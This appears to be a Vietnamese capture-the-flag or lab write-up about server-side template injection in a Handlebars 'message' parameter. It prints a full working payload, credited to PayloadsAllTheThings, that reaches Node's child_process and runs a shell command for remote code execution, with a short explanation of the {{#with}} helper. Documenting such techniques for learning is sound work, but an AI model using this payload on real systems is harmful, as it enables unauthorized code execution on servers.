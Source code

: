![image](https://github.com/user-attachments/assets/cb0bd195-9ce2-410a-bbe1-e5255b6a53c7)

![image](https://github.com/user-attachments/assets/063d98da-4f32-48f8-b349-dbaebf316179)

Lần này lỗi nó lại xuất hiện ở param message, ta tiến hành fuzz vào thì nó trả ra là đang dùng template `handlebars`.

Tiến hành tìm kiếm docs của thằng này để xem format của nó.

Thì đại loại thằng này nó cũng dùng dạng như `{{ }}` để inject, nhưng sau khi tôi tham khảo thì có 1 payload của các anh bug hunter làm ra.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

{{#with}} giúp gọi đến các object và thuộc tính của chúng một cách dễ dàng hơn trong Handlebars. Khi sử dụng {{#with}}, bạn có thể truy cập trực tiếp vào các thuộc tính của object mà không cần lặp lại tên object đó nhiều lần. Điều này giúp code gọn gàng và dễ quản lý hơn.

Nhìn kĩ thì nó lặp đó v:, sau nó gọi vào hàm con của nodejs và RCE.

![image](https://github.com/user-attachments/assets/62dbc47e-ef1c-45f6-930a-129768e1c258)

Và thành công
# REFERENCES
[1]. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars
